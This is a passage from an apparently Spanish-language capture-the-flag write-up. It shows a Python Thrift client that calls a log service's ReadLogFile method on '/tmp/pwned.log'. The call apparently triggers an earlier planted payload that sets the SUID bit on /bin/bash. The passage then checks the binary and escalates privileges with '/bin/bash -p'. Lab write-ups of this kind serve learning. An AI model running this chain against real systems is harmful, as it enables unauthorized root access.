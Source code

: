 y como cliente de comunicación usaremos en nuestro equipo:

```python
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
import sys
sys.path.insert(0, '/ruta/al/gen-py' )
from log_service import LogService  # Importa el módulo generado por Thrift

try:
    # Crear el transporte y el protocolo para la comunicación
    transport = TSocket.TSocket('localhost', 9090)
    transport = TTransport.TBufferedTransport(transport)
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Crear el cliente utilizando el procesador generado por Thrift
    client = LogService.Client(protocol)

    # Conectar al servidor
    transport.open()

    # Llamar al método ReadLogFile
    result = client.ReadLogFile('/tmp/pwned.log')
    print('Resultado:', result)

    # Cerrar el transporte
    transport.close()

except Thrift.TException as tx:
    print(f'%s' % (tx.message), file=sys.stderr)

```

te recomiendo ejecutar el script desde un entorno, (que lo hicimos anteriormente) porque debemos importar el modulo thrift con pip

ahora, una vez ejecutado, vamos a ir a la maquina y verificar que el /bin/bash sea suid:
```bash
ls -la /bin/bash
```
vamos a escalar privilegios:
```bash
/bin/bash -p
```
<img src="/images/writeup-caption/32.png"/>
